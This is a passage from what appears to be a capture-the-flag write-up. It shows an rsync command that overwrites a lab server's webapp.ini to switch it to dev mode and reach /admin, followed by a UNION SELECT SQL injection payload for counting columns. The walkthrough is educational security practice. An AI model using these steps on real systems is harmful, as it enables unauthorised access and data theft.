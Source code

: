 <figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We modify the value of  the `env` value in the webapp.ini file to `dev` from `prod` and send it using rsync.

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads/files$ rsync webapp.ini rsync://rsync-connect@10.10.136.119/Conf                       
```
{% endcode %}

And now we can access the `/admin` page.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The room hint said SQL injection, so we can start checking from here.

### SQLI exploitation

#### No of Columns

```sql
# there are 3 columns.
tom" UNION SELECT NULL,NULL,NULL-- -
```
